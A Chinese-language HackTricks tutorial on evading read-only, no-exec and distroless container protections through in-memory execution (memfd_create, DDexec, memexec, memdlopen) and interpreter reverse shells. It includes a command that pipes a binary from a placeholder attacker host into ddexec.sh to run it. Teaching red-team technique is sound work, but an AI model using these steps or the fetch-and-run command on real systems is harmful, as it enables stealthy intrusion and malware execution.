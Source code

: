 # 绕过文件系统保护：只读 / 无执行 / Distroless

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对**黑客职业**感兴趣并想要黑掉不可能黑掉的东西 - **我们正在招聘！**（需要流利的波兰语书面和口头表达能力）。

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，您可以找到本页中提到的技术的更深入解释：

* [**DEF CON 31 - 探索Linux内存操作以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用DDexec-ng和内存dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在Linux机器上发现**只读（ro）文件系统保护**变得越来越普遍，特别是在容器中。这是因为在容器中运行只读文件系统只需在`securitycontext`中设置**`readOnlyRootFilesystem: true`**即可：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`**仍然是可写的，因此我们可以在磁盘上写入内容。但是，此文件夹将以**无执行保护**挂载，因此如果您在此处下载二进制文件，则**无法执行**它。

{% hint style="warning" %}
从红队的角度来看，这使得下载和执行不在系统中的二进制文件（如后门或类似`kubectl`的枚举器）变得**复杂**。
{% endhint %}

## 最简单的绕过方法：脚本

请注意，我提到了二进制文件，只要解释器在机器内部，您就可以**执行任何脚本**，比如如果`sh`存在，则可以执行**shell脚本**，如果安装了`python`，则可以执行**python脚本**。

然而，这仅仅足以执行您的二进制后门或其他可能需要运行的二进制工具。

## 内存绕过

如果您想要执行一个二进制文件，但文件系统不允许，那么最好的方法是通过**从内存中执行**，因为**保护在那里不适用**。

### FD + exec系统调用绕过

如果您在机器内部有一些强大的脚本引擎，比如**Python**、**Perl**或**Ruby**，您可以将要执行的二进制文件下载到内存中，将其存储在一个内存文件描述符（`create_memfd`系统调用）中，这不会受到这些保护的保护，然后调用**`exec`系统调用**，指示**将fd作为要执行的文件**。

为此，您可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。您可以将二进制文件传递给它，它将生成一个以指定语言编写的脚本，其中包含**使用指令对二进制文件进行解码和解压缩**的**二进制压缩和b64编码**，以及调用`create_memfd`系统调用创建的**fd**和调用**exec**系统调用来运行它的指令。

{% hint style="warning" %}
这在其他脚本语言（如PHP或Node）中不起作用，因为它们没有任何从脚本中**调用原始系统调用**的默认方法，因此无法调用`create_memfd`来创建**存储二进制文件的内存fd**。

此外，在`/dev/shm`中创建一个**常规fd**并不起作用，因为您将无法运行它，因为**无执行保护**将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种技术，允许您通过覆盖其**`/proc/self/mem`**来**修改自己进程的内存**。

因此，通过**控制进程执行的汇编代码**，您可以编写一个**shellcode**并“变异”进程以**执行任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec**将允许您从**内存**加载和**执行**您自己的**shellcode**或**任何二进制文件**。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 中找到如何使用 **memexec 执行来自 PHP 反向 shell 的二进制文件** 的示例。

### Memdlopen

与 DDexec 目的类似，[**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以更简单的方式将二进制文件加载到内存中以后执行它们。甚至可以加载具有依赖关系的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含运行特定应用程序或服务所需的 **最少组件**，例如库和运行时依赖项，但不包括诸如软件包管理器、shell 或系统实用程序等较大的组件。

Distroless 容器的目标是通过消除不必要的组件 **减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **找不到 `sh` 或 `bash`** 以获取常规 shell。您也不会找到诸如 `ls`、`whoami`、`id` 等二进制文件... 您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您通常无法获得 **反向 shell** 或像往常一样 **枚举** 系统。
{% endhint %}

但是，如果受损的容器例如正在运行 flask web，则已安装了 python，因此您可以获取 **Python 反向 shell**。如果正在运行 node，则可以获取 Node 反向 shell，大多数 **脚本语言** 也是如此。

{% hint style="success" %}
使用脚本语言，您可以利用语言功能 **枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以滥用反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
但是，在这种类型的容器中，这些保护通常存在，但您可以使用 **先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 中找到如何 **利用一些 RCE 漏洞** 来获取脚本语言 **反向 shell** 并从内存中执行二进制文件的 **示例**。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要黑入不可黑入的 - **我们正在招聘！**（需要流利的波兰语书面和口语能力）。

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的 **公司广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFT**](https://opensea.io/collection/the-peass-family) 收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) 上 **关注** 我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来 **分享您的黑客技巧**。

</details>
